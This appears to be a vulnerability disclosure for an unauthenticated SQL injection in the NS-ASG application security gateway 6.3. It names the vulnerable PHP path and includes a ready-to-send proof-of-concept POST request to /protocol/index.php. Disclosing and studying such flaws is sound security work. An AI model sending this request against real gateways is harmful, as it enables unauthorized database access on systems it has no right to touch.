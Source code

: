 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /protocol/iscgwtunnel/uploadiscgwrouteconf.php

analyse as below:
Accept the array $GWLinkId through the variable messagecontent, then traverse the $GWLinkId variable and directly substitute it into the sql statement without any verification. Causing unauthorized sql injection


<img width="606" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/32e4a7f7-ca7f-4b3e-b67b-f9ff92ac1565">

Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

jsoncontent={"protocolType":"uploadiscgwtunnel","messagecontent":["1*"]}
```
<img width="607" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/c2750e22-e1c6-45ac-9375-93877752790c">

